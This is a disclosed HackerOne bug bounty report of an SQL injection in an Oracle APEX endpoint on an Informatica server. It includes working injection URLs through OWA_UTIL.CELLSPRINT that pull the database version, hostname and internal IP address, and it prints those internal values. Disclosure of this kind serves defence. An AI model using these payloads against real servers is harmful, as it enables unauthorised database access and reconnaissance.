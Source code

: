 # [afocusp.informatica.com] Sql injection  afocusp.informatica.com:37777

## Report Details
- **Report ID**: 178632
- **URL**: https://hackerone.com/reports/178632
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-10-28T16:44:14.989Z
- **Disclosed**: 2017-01-21T19:05:37.398Z

## Reporter
- **Username**: e3xpl0it
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
hi !There is another sql injection on host  afocusp.informatica.com:37777

POC 
version
http://afocusp.informatica.com:37777/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=select+*+from+v$version

hostname of the database server 
psvlxtdapp1.inf

http://afocusp.informatica.com:37777/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=select+SYS_CONTEXT('USERENV',+'HOST',+15)+ipaddr+from+dual

IP address of the database server (local)
10.1.192.93 

http://afocusp.informatica.com:37777/pls/apex/f?);OWA_UTIL.CELLSPRINT(:1);--=select+SYS_CONTEXT('USERENV',+'IP_ADDRESS',+15)+ipaddr+from+dual

Ps
You need to patch all servers with the url /pls/apex/f? this is  old bug in oracle.

## Attachments
- IP_address_of_the_database_server_(local).jpg
- hostname_of_the_database_server_.jpg
- version_.jpg
